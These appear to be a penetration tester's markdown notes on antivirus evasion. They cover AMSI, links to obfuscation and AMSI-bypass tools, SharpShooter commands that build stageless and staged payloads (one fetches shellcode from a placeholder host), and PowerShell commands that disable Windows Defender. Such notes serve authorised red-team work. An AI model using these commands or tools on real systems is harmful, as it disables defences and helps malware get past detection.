 # AV Evasion   
## Notes 
2 primary types:   

on disk: file saved on target then executed 
in memory: preferred for evasion, import script into memory and then executed.  

Windows AMSI (Anti Malware Scan Interface): evals commands at runtime, scans scripts as they are imported into memory, makes evasion harder. VBA, Powershell, JavaScript. 
 AV agnostic: API any anti-virus product can use. "Identify fileless threats - at runtime most of obfuscation is removed" defeat: obfuscate code. 


## Tools     
Testing: [Windows 10 developer iso](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)  
[Other Windows iso files](https://the-eye.eu/public/) 

[Invoke-Obfuscation powershell script](https://github.com/danielbohannon/Invoke-Obfuscation)  
[Invoke-bfuscation Usage Guide](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide)  
https://github.com/tokyoneon/Chimera ( bypassing AMSI and signature based detection )   
https://github.com/persianhydra/Xeexe-TopAntivirusEvasion   
https://github.com/BC-SECURITY/Empire/blob/master/empire/server/common/bypasses.py  

[Veil](https://github.com/Veil-Framework/Veil) 
[Shellter](https://www.shellterproject.com/download/)  
[Donut](https://github.com/TheWover/donut) 
[Vulcan](https://github.com/praetorian-code/vulcan) 
[Scarecrow](https://github.com/optiv/ScareCrow)  

## Sharpshooter
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)   

Javascript Payload Stageless:   

    SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

    SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

    SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4


## Commands 
Turning off Windows Defender 

    Set-MpPreference -DisableRealtimeMonitoring $true   

Need to run Powershell as admin and reboot after running command to turn off Windows Defender indefinetly: 

    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -name disableantispyware -value 1 -Force


View Windows Defender logs   

    Get-WinEvent 'Microsoft-Windows-Windows Defender/Operational' MaxEvents 10 | Where-Object Id -e 1116 | Format-List 


# Resources  
## Cheat sheets 
https://github.com/sinfulz/JustEvadeBro   
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell 


## Workshops 
https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation 




